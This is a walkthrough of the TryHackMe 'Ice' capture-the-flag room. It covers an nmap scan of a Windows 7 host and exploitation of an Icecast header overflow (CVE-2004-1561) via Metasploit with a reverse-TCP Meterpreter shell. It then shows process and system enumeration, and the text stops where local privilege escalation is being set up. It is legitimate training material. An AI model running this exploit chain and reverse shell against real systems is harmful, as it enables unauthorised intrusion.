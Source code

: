 # TryHackMe ICE Write-up

A walkthrough of a Windows-based TryHackMeCTF.
https://tryhackme.com/room/ice

## Recon

### Nmap scan

- Windows machine
- Multiple open services
- SMB open
- Icecast media streaming server open
- Quite a few open RPC services
- A HTTP API
- Remote desktop (read as `ms-wbt-server`)
- Hostname enumerated as `DARK-PC` from SMB.

```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-30 20:45 BST
Nmap scan report for 10.10.70.52
Host is up (0.021s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-09-30T19:46:14+00:00; 0s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn\'t have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h15m00s, deviation: 2h30m00s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:9d:da:4c:eb:f7 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-09-30T14:46:09-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-30T19:46:08
|_  start_date: 2020-09-30T19:43:59

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.36 seconds

```

## Gaining Access

### Finding an Icecast vuln

We can find a vuln on CVEDetails.

There isn't much in terms of versioning that the nmap scan has given us. 
So we'll have to guess at the CVE that TryHackMe is referring to.

Order results by vulns criticality over 7.
There are no explicitally matching _types_ of vulns.
But, with some common sense we can determine the bug we're looking for is:
`execute code overflow`

Of which, CVE `CVE-2004-1561` is one of the vuln opportunities.

### Metasploit

For this CTF, we're asked to use metasploit.

```shell
msf5 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite
```

We're potentially lucky in that we've only got one option.
Lets hope it works. And `use 0`, we'll want to set up as appropriate too.

```shell
msf5 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.70.52      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/icecast_header) > run

[*] Started reverse TCP handler on 10.11.8.219:4444
[*] Meterpreter session 1 opened (10.11.8.219:4444 -> 10.10.70.52:49261) at 2020-09-30 22:04:29 +0100

meterpreter>
```

Great, we have a meterpreter session after exploiting the Icecast service.

## Escalation

Now that we've got a `meterpreter` shell, we can start enumerating the system.

We can check what processes are running, and who is running them with `ps`.

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 416   4     smss.exe
 500   692   svchost.exe
 544   536   csrss.exe
 588   692   svchost.exe
 592   536   wininit.exe
 604   584   csrss.exe
 652   584   winlogon.exe
 692   592   services.exe
 700   592   lsass.exe
 708   592   lsm.exe
 816   692   svchost.exe
 884   692   svchost.exe
 932   692   svchost.exe
 1056  692   svchost.exe
 1140  692   svchost.exe
 1260  692   spoolsv.exe
 1292  692   sppsvc.exe
 1324  692   svchost.exe
 1408  692   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1516  500   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1528  1496  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1568  692   amazon-ssm-agent.exe
 1704  692   LiteAgent.exe
 1744  692   svchost.exe
 1800  816   WmiPrvSE.exe
 1884  692   Ec2Config.exe
 2076  692   svchost.exe
 2204  692   vds.exe
 2260  1528  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2508  692   SearchIndexer.exe
 3024  692   TrustedInstaller.exe
 4004  816   slui.exe              x64   1        Dark-PC\Dark  C:\Windows\System32\slui.exe

meterpreter >
```

We can enumerate some system info with `sysinfo`.

```shell
meterpreter> sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

OS is Windows 7, build `7601`. On `x64` architecture.

We can further enumerate with a some `post` exploitations on our meterpreter shell.
Lets use `post/multi/recon/local_exploit_suggester`.







